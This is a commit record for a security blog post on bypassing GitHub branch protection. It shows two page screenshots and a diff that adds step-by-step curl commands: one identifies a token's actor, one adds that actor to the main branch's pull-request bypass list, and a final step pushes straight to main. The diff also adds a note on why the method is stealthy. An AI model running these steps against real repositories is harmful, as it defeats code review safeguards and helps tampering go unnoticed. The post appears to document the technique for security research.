

Before and after one commit to dibsy/dibsy.github.io, an MkDocs documentation site: the page built from docs/posts/Branch-Protection-Bypass.md, in a window 1280 px wide and 1400 px high, scrolled down 7308 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Enhance documentation on branch protection bypass
Added detailed steps for bypassing branch protection rules, including examples for pushing a named branch rule, identifying the token actor, adding the actor to the bypass list, and pushing code.

````diff
--- a/docs/posts/Branch-Protection-Bypass.md
+++ b/docs/posts/Branch-Protection-Bypass.md
@@ -267,8 +267,7 @@
     - Add actor to bypass list
     - Push code
 
-
-Example (illustrative):
+### Step 1 - Push a named branch rule
 
 ```bash
 curl -X PUT \
@@ -287,6 +286,38 @@
 "restrictions": null
 }'
 ```
+
+### Step 2 — Identify the token actor
+
+```bash
+curl -H "Authorization: token $TOKEN" \
+  -H "Accept: application/vnd.github+json" \
+  https://api.github.com/user
+```
+
+### Step 3 — Add actor to bypass list
+
+```bash
+curl -X PATCH \
+  -H "Authorization: token $TOKEN" \
+  -H "Accept: application/vnd.github+json" \
+  https://api.github.com/repos/<ORG>/<REPO>/branches/main/protection/required_pull_request_reviews \
+  -d '{
+    "bypass_pull_request_allowances": {
+      "users": ["<ACTOR>"],
+      "teams": [],
+      "apps": []
+    }
+  }'
+```
+
+### Step 4 — Push code
+
+```bash
+git push origin main
+```
+
+
 
 ### Diagram
 
@@ -323,6 +354,11 @@
 
 ```
 
+!!! question "Why it is stealthier?"
+  - No delete operation
+  - Adding new branch protection rule might not look like an attack
+
+
 ---
 
 
````
